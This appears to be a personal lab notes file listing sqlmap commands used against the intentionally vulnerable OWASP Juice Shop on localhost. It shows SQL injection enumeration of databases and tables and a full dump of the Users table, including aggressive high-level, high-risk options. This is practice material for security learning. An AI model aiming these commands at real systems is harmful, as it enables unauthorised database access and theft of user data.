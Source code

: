 # Commands for SQLMAP

These examples are referencing OWASP Juice Shop where I performed an SQLite Dump

## Simple command 
``sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --dbs

**--batch = auto answer defaults (so it doesn’t prompt you)
--dbs = enumerate databases**

## List tables
``sqlmap -u "http://localhost:3000/rest/products/search?q=apple" -D main --tables

## Table Dump
``sqlmap -u "http://localhost:3000/rest/products/search?q=apple" -D main -T Users --dump

## To test with more parameters for more dbs such as SQLLite use command
``sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --dbs --level=5 --risk=3

**--level 5 → tests more parameters & payloads

--risk 3 → includes potentially intrusive/time-based payloads**

## To List the tables present within this db
``sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --level=5 --risk=3 --dbms=SQLite --tables

## For dump 
sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --level=5 --risk=3 --dbms=SQLite -T Users --dump

**After -T, add any table name parameter listed after viewing the table list.
